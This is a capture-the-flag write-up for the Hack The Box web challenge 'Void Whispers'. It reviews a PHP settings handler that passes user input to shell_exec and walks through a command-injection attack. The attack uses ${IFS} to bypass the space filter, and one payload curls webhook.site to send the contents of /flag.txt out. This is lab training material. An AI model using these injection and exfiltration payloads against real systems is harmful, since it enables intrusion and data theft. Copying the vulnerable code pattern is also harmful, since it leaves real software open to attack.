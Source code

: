 ```yaml
---
clayout: ctf
title: Void Whispers
date: 2024-12-11
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Void Whispers
      link: https://app.hackthebox.com/challenges/808
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/808
          thumbnail: /ctf/hack-the-box/challenges/web/void-whispers/pwned.png
---
```


## Challenge description

In the dead of night, an eerie silence envelops the town, broken only by the faintest of echoes—whispers in the void. A
phantom mailer is sending out silent commands, unseen and unheard, manipulating systems from the shadows. The townsfolk
remain oblivious to the invisible puppeteer pulling their strings. Legends hint that sending the right silent message
back could reveal hidden secrets. Can you tap into the darkness, craft the perfect unseen command, and shut down the
malevolent force before it plunges the world into chaos?

## Challenge overview

The challenge involves a web application that provides an interface to configure email settings. By exploiting
vulnerabilities in the configuration functionality, we can gain unauthorized access to sensitive data.

![Void Whispers - Overview](/ctf/hack-the-box/challenges/web/void-whispers/overview.png)

## Code review

### `IndexController.php`

The `updateSetting` function handles updates to email configurations. It validates the `sendMailPath` parameter to
ensure no spaces are present and verifies the binary's existence using the `which` command. If validation passes, the
function updates the configuration file.

```php
public function updateSetting($router)
{
    $from = $_POST['from'];
    $mailProgram = $_POST['mailProgram'];
    $sendMailPath = $_POST['sendMailPath'];
    $email = $_POST['email'];
    if (empty($from) || empty($mailProgram) || empty($sendMailPath) || empty($email)) {
        return $router->jsonify(['message' => 'All fields required!', 'status' => 'danger'], 400);
    }

    if (preg_match('/\s/', $sendMailPath)) { // [!code focus]
        return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
    }

    $whichOutput = shell_exec("which $sendMailPath"); // [!code focus]
    if (empty($whichOutput)) {
        return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
    }

    $this->config['from'] = $from;
    $this->config['mailProgram'] = $mailProgram;
    $this->config['sendMailPath'] = $sendMailPath;
    $this->config['email'] = $email;

    file_put_contents($this->configFile, json_encode($this->config));

    return $router->jsonify(['message' => 'Config updated successfully!', 'status' => 'success'], 200);
}
```

**Vulnerabilities Identified**

1. Space Validation Bypass
   The `preg_match('/\s/', $sendMailPath)` validation can be bypassed using `${IFS}`, a shell variable representing a
   space character.

2. Command Injection
   The `shell_exec("which $sendMailPath")` function directly executes shell commands without sanitization. Injecting
   commands into the `sendMailPath` parameter allows arbitrary command execution.

## Exploitation

### Step 1: Space Validation Bypass

To bypass the `preg_match` validation for spaces, we use `${IFS}` (Internal Field Separator) to represent spaces. For
example:

```bash
/usr/sbin/sendmail;${IFS}whoami
```

This payload bypasses the space check and allows command injection.

### Step 2: Command Injection

Using the command injection vulnerability, we can craft a payload to execute arbitrary commands. For instance, to
retrieve the flag:

```bash
/usr/sbin/sendmail;curl${IFS}https://webhook.site/your-webhook-url?flag=$(cat${IFS}/flag.txt)
```

::: info **Explanation of Payload**:

- `/usr/sbin/sendmail`: A valid command to pass initial validation.
- `;`: Ends the first command and starts a new one.
- `curl${IFS}https://webhook.site/your-webhook-url?flag=`: Sends an HTTP request with the flag content.
- `$(cat${IFS}/flag.txt)`: Reads the `flag.txt` file and appends its content to the `flag` parameter.

:::

### Step 3: Sending the Exploit

Set the `sendMailPath` parameter to the crafted payload and send the form. The application will execute the payload,
sending the flag to the specified WebHook.

### Step 4: Retrieving the Flag

Monitor your WebHook for incoming requests. The flag will appear in the request URL:

```bash
https://webhook.site/5ae0b38c-d624-49c7-8c83-eb3b56728f18?flag=HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

## References

- [Filter Evasion in a REVERSE SHELL (no spaces!!) - John Hammond](https://www.youtube.com/watch?v=mEGnhfOX-xs)
- [WebHook.site](https://webhook.site/)
